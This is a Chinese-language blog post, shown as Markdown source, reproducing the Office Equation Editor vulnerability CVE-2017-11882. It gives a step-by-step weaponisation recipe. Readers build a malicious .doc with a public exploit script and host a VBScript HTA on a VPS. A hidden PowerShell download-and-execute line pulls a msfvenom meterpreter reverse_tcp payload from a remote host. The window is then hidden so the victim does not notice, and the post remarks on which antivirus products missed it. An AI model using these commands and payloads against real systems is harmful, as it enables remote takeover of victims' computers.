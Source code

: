 ```yaml
---
title: CVE-2017-11882 复现
date: 2017-11-21 18:40:29
tags: [vul,sec,office]
categories: Security
---
```

<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

上周微软更新日，修复了`CVE-2017-11882`这个漏洞，根据官方描述该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。漏洞位置是出现在一个公式编辑器上，叫做`EQNEDT32.EXE`，在win10上的路径是`C:\Program Files\Common Files\microsoft shared\EQUATION\EQNEDT32.EXE`，可以在编辑文档的时候插入公式。

最近有利用脚本出来了，也是自己尝试复现了几次，在此简单记录一下

下载`https://github.com/Ridter/CVE-2017-11882/`利用脚本，该脚本是[@Evi1cg](https://evi1cg.me/archives/CVE_2017_11882_exp.html)改造后的脚本，经过测试效果还是不错的

生成一个测试文档的话执行
`python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
`
打开test.doc就会弹出计算器，而且全程没有提示或警告之类的弹窗，可以算是完美利用，比之前[不带宏的代码执行](https://kylingit.com/blog/msword-code-exec-without-macro/)要简单粗暴

注意一点的是命令部分长度不能超过43bytes

#### 反弹shell
下面主要讲一下反弹shell的利用

用mshta方式执行代码：
在vps上建立一个文件`test`，内容为
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```
关键是修改`objShell.Run`后面的部分

我们通过调用powershell下载一个反弹脚本然后执行的方式来获得shell：

修改`objShell.Run`为

`objShell.Run powershell.exe -WindowStyle Hidden -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://ip/reverse.ps1');reverse.ps1"`

其中`reverse.ps1`通过`msfvenom`生成:

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >reverse.ps1`

msf开启监听，然后生成word文档：
`python Command_CVE-2017-11882.py -c "mshta http://ip/test" -o test.doc`

打开之后就会收到shell

![test](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/5TU1y)
![session 1](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/KM1My)
但是这样会有一个问题，打开word文档的时候会发现有一个黑框一闪而过，而我们已经指定powershell以`-WindowStyle Hidden`的方式运行了，那怎么绕过这个黑框呢？

查一下[文档](https://msdn.microsoft.com/en-us/library/d5fk67ky\(en-us,VS.85\).aspx)
可以看到`Run`命令是可以通过`intWindowStyle`参数来控制窗口风格的，有0-10这几种风格
![Run Method](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/q0F4b)
所以我们在执行的命令后面加一个参数，用来控制mshta运行的窗口大小，使之最好隐藏窗口运行
![0](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/ccxgV)
经过测试0和2参数都是可以的，达到隐藏窗口执行，用户察觉不了，其它参数可以自己试一下

![session 3](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/qJKq7)

目前这样生成的文档在火绒和360杀毒的最新版上是没有报毒，但是各大杀软已经更新了规则，凡是远程调用执行cmd或者ps或者regsvr32等都会触发报警，暂时没有好的方法绕过，毕竟是监控着底层的那几个文件的。

![av](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/fzUuw)

参考：

https://evi1cg.me/archives/CVE_2017_11882_exp.html

http://www.freebuf.com/vuls/154462.html

<script>pangu.spacingPage();</script>






